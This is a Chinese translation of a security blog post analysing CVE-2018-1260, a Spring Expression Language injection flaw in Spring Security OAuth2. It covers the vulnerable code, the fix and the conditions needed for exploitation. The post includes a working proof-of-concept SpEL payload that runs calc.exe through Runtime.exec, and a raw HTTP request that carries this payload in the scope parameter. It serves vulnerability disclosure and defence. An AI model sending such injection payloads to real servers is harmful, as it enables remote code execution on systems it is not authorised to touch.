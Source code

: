 > 原文链接: https://www.anquanke.com//post/id/148377 


# 谨防Magic SpEL - Part 2（CVE-2018-1260）


                                阅读量   
                                **87263**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者Matt N，文章来源：http://blog.h3xstream.com/
                                <br>原文地址：[http://blog.h3xstream.com/2018/05/beware-of-magic-spell-part-2-cve-2018.html](http://blog.h3xstream.com/2018/05/beware-of-magic-spell-part-2-cve-2018.html)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p3.ssl.qhimg.com/t0193330ca4b398af37.jpg)](https://p3.ssl.qhimg.com/t0193330ca4b398af37.jpg)

## 前言

这里我们将对Spring Security OAuth2（CVE-2018-1260）中类似的RCE漏洞进行练习。我们将介绍攻击目标，它的发现方法和利用所需的条件。此漏洞也与2016年披露的另一个漏洞有相似之处。我们将在我们分析修复的部分讨论这种相似性。



## 分析潜在的漏洞

这一切都始于Find Security Bugs的bug模式SPEL_INJECTION的报告。<br>
它报告SpelExpressionParser.parseExpression()中动态参数的使用，也是我们先前漏洞中使用的相同API。表达式解析器用于解析置于大括号`$ `{`...`}``之间的表达式。

```
public SpelView(String template) `{`
    this.template = template;
    this.prefix = new RandomValueStringGenerator().generate() + "`{`";
    this.context.addPropertyAccessor(new MapAccessor());
    this.resolver = new PlaceholderResolver() `{`
        public String resolvePlaceholder(String name) `{`
            Expression expression = parser.parseExpression(name); //Expression parser
            Object value = expression.getValue(context);
            return value == null ? null : value.toString();
        `}`
    `}`;
`}`
```

控制器类WhitelabelApprovalEndpoint使用此SpelView类构建OAuth2授权流程。SpelView类将名为“template”的字符串（见下面的代码）认定为Spring表达式。

```
@RequestMapping("/oauth/confirm_access")
public ModelAndView getAccessConfirmation(Map&lt;String, Object&gt; model, HttpServletRequest request) throws Exception `{`
   String template = createTemplate(model, request);
   if (request.getAttribute("_csrf") != null) `{`
      model.put("_csrf", request.getAttribute("_csrf"));
   `}`
   return new ModelAndView(new SpelView(template), model); //template variable is a SpEL
`}`
```

在方法createTemplate（）和createScopes（）之后，我们可以看到属性“scopes”被附加到HTML模板中，该模板将被认定为一个表达式。绑定到模板的唯一模型参数是CSRF token。但是，CSRF token不受远程用户的控制。

```
protected String createTemplate(Map&lt;String, Object&gt; model, HttpServletRequest request) `{`
   String template = TEMPLATE;
   if (model.containsKey("scopes") || request.getAttribute("scopes") != null) `{` 
      template = template.replace("%scopes%", createScopes(model, request)).replace("%denial%", "");
   `}`

[...]

private CharSequence createScopes(Map&lt;String, Object&gt; model, HttpServletRequest request) `{`
   StringBuilder builder = new StringBuilder("&lt;ul&gt;");
   @SuppressWarnings("unchecked")
   Map&lt;String, String&gt; scopes = (Map&lt;String, String&gt;) (model.containsKey("scopes") ? model.get("scopes") : request
         .getAttribute("scopes"));  //Scope attribute loaded here
   for (String scope : scopes.keySet()) `{`
      String approved = "true".equals(scopes.get(scope)) ? " checked" : "";
      String denied = !"true".equals(scopes.get(scope)) ? " checked" : "";
      String value = SCOPE.replace("%scope%", scope).replace("%key%", scope).replace("%approved%", approved)
            .replace("%denied%", denied);
      builder.append(value);
   `}`
   builder.append("&lt;/ul&gt;");
   return builder.toString();
`}`
```

此时，我们不确定scopes属性是否可以由远程用户控制。虽然属性（req.getAttribute（..））表示存储在服务器端的会话值，但scope是OAuth2流的可选参数部分。<br>
该参数可以被用户访问，并被保存到服务器端的属性中，最终加载到之前的模板里。<br>
在对文档和一些测试进行了研究之后，我们发现“scopes”是隐式OAuth2流的GET参数部分。因此，隐性模式将是我们易受攻击的应用程序所必需的。



## 猜想验证和局限性

在测试我们的应用程序时，我们意识到scopes的验证是基于用户定义的scopes白名单的。如果配置了这个白名单，我们就不能随意创造scopes参数。如果scopes没有被定义，则不会对其进行验证。这种局限性可能会使大多数Spring OAuth2应用程序依旧安全。<br>
第一个请求使用scopes`$`{`1338-1`}``，见下图。根据回应，我们现在确认scopes参数的值可以被SpelView表达式的执行。<br>[![](https://p0.ssl.qhimg.com/t017b90aac8650f3c3b.png)](https://p0.ssl.qhimg.com/t017b90aac8650f3c3b.png)第二个测试是使用表达式`$ `{`T（java.lang.Runtime）.getRuntime（）.exec（”calc.exe“）`}``来验证表达式不限于简单的算术运算。<br>[![](https://p3.ssl.qhimg.com/t010ef130e475db4c21.png)](https://p3.ssl.qhimg.com/t010ef130e475db4c21.png)为了更容易再现，这里是之前截下的http请求原始数据。某些字符（主要是花括号）不受Web容器支持，需要进行URL编码以访问应用程序。<br>``{` -&gt;％7b`

```
POST /oauth/authorize?response_type=code&amp;client_id=client&amp;username=user&amp;password=user&amp;grant_type=password&amp;scope=%24%7bT(java.lang.Runtime).getRuntime().exec(%22calc.exe%22)%7d&amp;redirect_uri=http://csrf.me HTTP/1.1
Host: localhost:8080
Authorization: Bearer 1f5e6d97-7448-4d8d-bb6f-4315706a4e38
Content-Type: application/x-www-form-urlencoded
Accept: */*
Content-Length: 0
```



## 分析修复代码

Pivotal团队选择的解决方案是用简单的视图替换SpelView，并进行基本的级联。<br>
这消除了SpEL执行的所有可能路径。第一个补丁提出了一个潜在的XSS漏洞，但幸运的是，在该漏洞被公开前已经被修复。scopes值现在可以正确转义并且不受任何注入影响。<br>
更重要的是，该解决方案提高了另一个终端的安全性：WhitelabelErrorEndpoint。该终端也不再使用Spel View。它在2016年被发现容易遭受同样的攻击。Spring-OAuth2也使用SpelView类来构建存在漏洞的页面。有趣的是，模板参数是静态的，但绑定到模板的参数是递归执行的。这意味着模型中的任何值都可能导致远程代码执行。<br>[![](https://p5.ssl.qhimg.com/t0187d609f560610294.png)](https://p5.ssl.qhimg.com/t0187d609f560610294.png)

[![](https://p1.ssl.qhimg.com/t016b2bb7fa41133191.png)](https://p1.ssl.qhimg.com/t016b2bb7fa41133191.png)该递归执行通过向表达式边界添加随机前缀来修复。这个模板的安全性现在依赖于6个字符的随机性（6的62次方个可能性）。一些分析师对这种修复方案持怀疑态度，如果做了足够的尝试，就会增加风险。但是，现在这不再是一种可能性，因为SpelView也被从此终端删除。<br>
SpelView类也存在于Spring Boot中。这个实现有一个自定义的解析器来避免递归。这意味着尽管Spring-OAuth2项目不再使用它，但其他组件或专有应用程序可能会重用（复制粘贴）此实用程序类以节省一些时间。出于这个原因，在查找安全漏洞中引入了一种寻找SpelView的新探测器。探测器不会查找特定的包名称，因为我们假定应用程序可能具有SpelView类的副本，而不是对Spring-OAuth2或Spring Boot类的引用。



## 局限性和利用

我们鼓励您保持所有Web应用程序的依赖项保持最新。如果由于任何原因你必须推迟更新，以下是漏洞具体的利用条件：<br>
1.在依赖关系树中有Spring OAuth2<br>
2.用户必须启用隐式模式，它可以与其他授权类型一起启用<br>
3.scope列表需要为空（未明确设置为一个或多个元素）<br>
好消息是，并非所有OAuth2应用程序都会受到攻击。为了指定任意范围，攻击者的用户配置文件需要有一个空的scope列表。



## 总结

这是SpEL注入漏洞系列的第二篇也是最后一篇文章。我们希望它为这个不太常见的漏洞类别提供了一些信息。<br>
正如前面在第1部分中提到的，在您自己的应用程序中找到这个漏洞不太可能。它更可能出现类似于Spring-Data或Spring-OAuth的组件。如果您是Java开发人员或负责审计Java代码以确保安全的人员，则可以使用Find Security Bugs（我们用来查找此漏洞的工具）扫描您的应用程序。



## 参考

[https://pivotal.io/security/cve-2018-1260](https://pivotal.io/security/cve-2018-1260)

[https://pivotal.io/security/cve-2016-4977](https://pivotal.io/security/cve-2016-4977)

[https://docs.spring.io/spring/docs/3.0.x/reference/expressions.html](https://docs.spring.io/spring/docs/3.0.x/reference/expressions.html)

[http://find-sec-bugs.github.io/bugs.htm#SPEL_INJECTION](http://find-sec-bugs.github.io/bugs.htm#SPEL_INJECTION)



审核人：yiwang   编辑：边边
